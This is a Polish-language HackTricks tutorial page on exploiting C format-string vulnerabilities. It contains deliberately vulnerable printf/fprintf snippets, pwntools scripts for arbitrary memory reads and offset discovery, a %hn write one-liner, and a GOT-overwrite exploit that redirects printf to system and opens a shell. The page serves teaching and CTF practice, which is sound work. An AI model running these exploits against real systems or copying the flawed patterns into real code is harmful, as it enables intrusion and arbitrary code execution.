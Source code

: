 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_wymagana biegła znajomość języka polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

W C **`printf`** to funkcja, która może być używana do **drukowania** pewnego ciągu znaków. **Pierwszym parametrem**, którego oczekuje ta funkcja, jest **surowy tekst z formatami**. **Następne parametry** to **wartości**, które mają **zastąpić** **formaty** w surowym tekście.

Inne podatne funkcje to **`sprintf()`** i **`fprintf()`**.

Vulnerabilność pojawia się, gdy **tekst atakującego jest używany jako pierwszy argument** tej funkcji. Atakujący będzie w stanie stworzyć **specjalne dane wejściowe, wykorzystując** możliwości **formatu printf** do odczytu i **zapisu dowolnych danych w dowolnym adresie (czytliwym/zapisywalnym)**. Dzięki temu będzie mógł **wykonać dowolny kod**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Przykłady:**

* Przykład z luką:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normalne użycie:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Z brakującymi argumentami:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf podatny:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Dostęp do wskaźników**

Format **`%<n>$x`**, gdzie `n` to liczba, pozwala wskazać printf, aby wybrał n parametr (ze stosu). Więc jeśli chcesz odczytać 4. parametr ze stosu używając printf, możesz to zrobić:
```c
printf("%x %x %x %x")
```
i czytałbyś od pierwszego do czwartego parametru.

Lub mógłbyś zrobić:
```c
printf("%4$x")
```
i odczytać bezpośrednio czwarty.

Zauważ, że atakujący kontroluje parametr `printf`, co zasadniczo oznacza, że jego dane wejściowe będą znajdować się na stosie, gdy `printf` zostanie wywołane, co oznacza, że mógłby zapisać konkretne adresy pamięci na stosie.

{% hint style="danger" %}
Atakujący kontrolujący te dane wejściowe będzie w stanie **dodać dowolny adres na stosie i sprawić, że `printf` uzyska do nich dostęp**. W następnej sekcji zostanie wyjaśnione, jak wykorzystać to zachowanie.
{% endhint %}

## **Arbitralne Odczyty**

Możliwe jest użycie formatera **`%n$s`**, aby sprawić, że **`printf`** uzyska **adres** znajdujący się na **n pozycji**, podążając za nim i **wydrukować go tak, jakby był ciągiem** (drukuj, aż znajdziesz 0x00). Więc jeśli adres bazowy binarnego pliku to **`0x8048000`**, a wiemy, że dane wejściowe użytkownika zaczynają się na 4. pozycji na stosie, możliwe jest wydrukowanie początku binarnego pliku za pomocą:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Zauważ, że nie możesz umieścić adresu 0x8048000 na początku wejścia, ponieważ ciąg zostanie zakończony na 0x00 na końcu tego adresu.
{% endhint %}

### Znajdź offset

Aby znaleźć offset do swojego wejścia, możesz wysłać 4 lub 8 bajtów (`0x41414141`) następnie **`%1$x`** i **zwiększać** wartość, aż uzyskasz `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Jak przydatne

Arbitralne odczyty mogą być przydatne do:

* **Zrzutu** **binarnego** z pamięci
* **Dostępu do konkretnych części pamięci, gdzie przechowywane są wrażliwe** **informacje** (jak kanarki, klucze szyfrowania lub niestandardowe hasła, jak w tym [**wyzwaniu CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitralne Zapis**

Formatka **`%<num>$n`** **zapisuje** **liczbę zapisanych bajtów** w **wskazanym adresie** w parametrze \<num> na stosie. Jeśli atakujący może zapisać tyle znaków, ile chce, za pomocą printf, będzie w stanie sprawić, że **`%<num>$n`** zapisze arbitralną liczbę w arbitralnym adresie.

Na szczęście, aby zapisać liczbę 9999, nie trzeba dodawać 9999 "A" do wejścia, aby to zrobić, można użyć formatki **`%.<num-write>%<num>$n`**, aby zapisać liczbę **`<num-write>`** w **adresie wskazywanym przez pozycję `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Jednakże, należy zauważyć, że zazwyczaj, aby zapisać adres taki jak `0x08049724` (co jest OGROMNYM numerem do zapisania na raz), **używa się `$hn`** zamiast `$n`. To pozwala na **zapisanie tylko 2 bajtów**. Dlatego ta operacja jest wykonywana dwa razy, raz dla najwyższych 2B adresu, a drugi raz dla najniższych.

Dlatego ta podatność pozwala na **zapisanie czegokolwiek w dowolnym adresie (dowolny zapis).**

W tym przykładzie celem będzie **nadpisanie** **adresu** **funkcji** w tabeli **GOT**, która będzie wywoływana później. Chociaż można to wykorzystać w innych technikach dowolnego zapisu do exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Zamierzamy **nadpisać** **funkcję**, która **otrzymuje** swoje **argumenty** od **użytkownika** i **wskazać** ją na **funkcję** **`system`**.\
Jak wspomniano, aby zapisać adres, zazwyczaj potrzebne są 2 kroki: **najpierw zapisujesz 2B** adresu, a następnie kolejne 2. W tym celu używa się **`$hn`**.

* **HOB** jest wywoływane dla 2 wyższych bajtów adresu
* **LOB** jest wywoływane dla 2 niższych bajtów adresu

Następnie, z powodu działania formatu ciągu, musisz **najpierw zapisać najmniejszy** z \[HOB, LOB\] a potem drugi.

Jeśli HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Jeśli HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Szablon Pwntools

Możesz znaleźć **szablon** do przygotowania exploita dla tego rodzaju podatności w:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Lub ten podstawowy przykład z [**tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings do BOF

Możliwe jest nadużycie działań zapisu w podatności na format string, aby **zapisać w adresach stosu** i wykorzystać podatność typu **buffer overflow**.

## Inne przykłady i odniesienia

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bity, bez relro, bez canary, nx, bez pie, podstawowe użycie format strings do wycieku flagi ze stosu (nie ma potrzeby zmieniać przepływu wykonania)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bity, relro, bez canary, nx, bez pie, format string do nadpisania adresu `fflush` funkcją win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bity, relro, bez canary, nx, bez pie, format string do zapisania adresu wewnątrz main w `.fini_array` (aby przepływ wrócił jeszcze raz) i zapisania adresu do `system` w tabeli GOT wskazującego na `strlen`. Gdy przepływ wraca do main, `strlen` jest wykonywane z danymi wejściowymi użytkownika i wskazując na `system`, wykona przekazane polecenia.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hackingu** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Wspieraj HackTricks

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.
{% endhint %}

